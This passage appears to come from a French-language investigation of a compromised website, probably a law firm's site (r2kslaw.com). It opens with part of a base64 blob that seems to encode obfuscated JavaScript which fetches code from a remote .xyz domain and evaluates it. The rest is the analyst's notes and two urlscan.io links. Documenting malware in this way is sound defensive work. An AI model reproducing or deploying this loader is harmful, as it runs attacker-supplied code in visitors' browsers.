vd2VEZzJOMkV4S1N3b1h6QjRZemt5TldOa0xGOHdlRE0xTkdVNU5UMG5kM0FuS1QwK2UyTnZibk4wSUY4d2VETmtaakUyWkQxZk1IZzFOREpsTEY4d2VEUXlNREprTkQxN0ozRmFlVUZUSnpwZk1IZ3paR1l4Tm1Rb01IaGlaQ2tzSjJ0UVNXRm5KenBtZFc1amRHbHZiaWhmTUhnME9HTTROak1zWHpCNE1XRmlNVEkxS1h0eVpYUjFjbTRnWHpCNE5EaGpPRFl6S0Y4d2VERmhZakV5TlNrN2ZYMDdlMnhsZENCZk1IZ3lNRFl4TlRFOWJtVjNJRmhOVEVoMGRIQlNaWEYxWlhOMEtDazdjbVYwZFhKdUlGOHdlREl3TmpFMU1WdGZNSGd6WkdZeE5tUW9NSGhqTmlsZEtGOHdlRFF5TURKa05GdGZNSGd6WkdZeE5tUW9NSGhqTlNsZExGOHdlRE5rWmpFMlpDZ3dlR0kxS1N0Zk1IZ3paR1l4Tm1Rb01IaGlZU2tyWHpCNE0yUm1NVFprS0RCNFltVXBLMTh3ZUROa1pqRTJaQ2d3ZUdNektTdGZNSGhqT1RJMVkyUXJYekI0TTJSbU1UWmtLREI0WXpjcEsxOHdlRE0xTkdVNU5Td2hLQzB3ZURFME16SXJMVEI0TWpRd1pDc3dlREV5S2pCNE16SXdLU2tzWHpCNE1qQTJNVFV4VzE4d2VETmtaakUyWkNnd2VHSTRLVjBvYm5Wc2JDa3NYekI0TkRJd01tUTBXMTh3ZUROa1pqRTJaQ2d3ZUdKbUtWMG9aWFpoYkN4Zk1IZ3lNRFl4TlRGYlh6QjRNMlJtTVRaa0tEQjRZamtwS3lkNGRDZGRLVHQ5ZlNrN1puVnVZM1JwYjI0Z1h6QjROVFpoTVNncGUyTnZibk4wSUY4d2VEUmlPVE0wTWoxYkp6RTFOekEwTXpaMVdIVkpRVWduTENjeU9EWXlNemt3TUVKUWVHeHFaU2NzSjJoMGRIQnpPaTh2WTJVbkxDYzRabEJYUVd0NEp5d25NVFk1TWxWcGRFUkpWeWNzSjNObGJtUW5MQ2R5WlhOd2IyNXpaVlJsSnl3bmFtVmpkWFUwTG5oNWVpY3NKell3T0RrNU9HZEZTVkp2VGljc0p6TTROakp3WldoS2FtTW5MQ2RIUlZRbkxDY3ZPRTkwWVVKeUx6OWhKeXduYTFCSllXY25MQ2MwT1RrM056UTFTRlJRV0VWV0p5d25OREF3TXpBeU4zcG5RbEZxVkNjc0p6YzBPRFU1TnpoWFYxRkJhR2tuTENka1pHVmtQU2NzSnpWdFNuTkRSM01uTENkeFdubEJVeWNzSjI5d1pXNG5MQ2NtZEdoeVpXRmtQU2RkTzE4d2VEVTJZVEU5Wm5WdVkzUnBiMjRvS1h0eVpYUjFjbTRnWHpCNE5HSTVNelF5TzMwN2NtVjBkWEp1SUY4d2VEVTJZVEVvS1R0OQ)



Toutefois je n’ai pas reussi à identifier la suite de la killchain en passant par ce nom de domaine.

Ces deux scans ont été fait mais ne contiennent pas les traces de compromissions type de l’attaquant

[r2kslaw.com - urlscan.io](https://urlscan.io/result/06663aad-61d1-4666-923d-ec27417c64e5)

[www.r2kslaw.com - urlscan.io](https://urlscan.io/result/c62b392c-b0ea-43a6-a187-9334d883c768)